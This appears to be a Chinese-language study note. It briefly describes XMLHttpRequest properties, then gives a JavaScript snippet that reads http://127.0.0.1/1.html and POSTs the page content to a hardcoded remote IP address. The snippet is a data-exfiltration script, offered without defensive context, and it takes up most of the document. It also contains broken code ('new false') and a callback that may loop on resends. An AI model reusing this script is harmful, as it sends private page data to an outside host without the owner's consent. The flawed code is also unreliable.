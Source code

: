 返回一个 [`Document`](https://developer.mozilla.org/zh-CN/docs/Web/API/Document)，其中包含该请求的响应，如果请求未成功、尚未发送或时不能被解析为 XML 或 HTML，则返回 `null`。

[`XMLHttpRequest.status`](https://developer.mozilla.org/zh-CN/docs/Web/API/XMLHttpRequest/status) 只读

返回一个无符号短整型（unsigned short）数字，代表请求的响应状态。

[`XMLHttpRequest.statusText`](https://developer.mozilla.org/zh-CN/docs/Web/API/XMLHttpRequest/statusText) 只读

返回一个 [`DOMString`](https://developer.mozilla.org/zh-CN/docs/Web/API/DOMString)，其中包含 HTTP 服务器返回的响应状态。与 [`XMLHTTPRequest.status`](https://developer.mozilla.org/zh-CN/docs/Web/API/XMLHTTPRequest/status) 不同的是，它包含完整的响应状态文本（例如，"`200 OK`"）。

#### 利用XMLHttpRequest对象读取网页并发送到远程服务器

```javascript
 <script language="javascript">
        var xmlhttp;
        function getXMLHttpRequest()
        {
            if(window.XMLHttpRequest)
                xmlhttp=new XMLHttpRequest();
            else
            {
                try
                {
                    xmlhttp=new ActiveXObject("Msxml2.XMLHTTP")
                }
                catch (e)
                {
                    try
                    {
                        xmlhttp=new ActiveXObject("Microsoft.XMLHTTP"); 
                    }
                    catch (e)
                    {
                        xmlhttp=new false;
                    }
                }
            }
        }
        function send_info_to_remote(xmlhttp)
        {
            var res=xmlhttp.responseText;
            getXMLHttpRequest();
            xmlhttp.open("POST","http://39.108.164.219:60000",true);
            xmlhttp.onreadystatechange=proccessResponse;
            xmlhttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
            xmlhttp.send(String(res));
            }
        function proccessResponse()
        {
            if(xmlhttp.readyState==4)
            {
                if(xmlhttp.status==200)
                {
                    send_info_to_remote(xmlhttp);
                }else window.alert("error");
            }
        }
        getXMLHttpRequest();
        xmlhttp.open("GET","http://127.0.0.1/1.html",true);
        xmlhttp.onreadystatechange=proccessResponse;
        xmlhttp.send();
```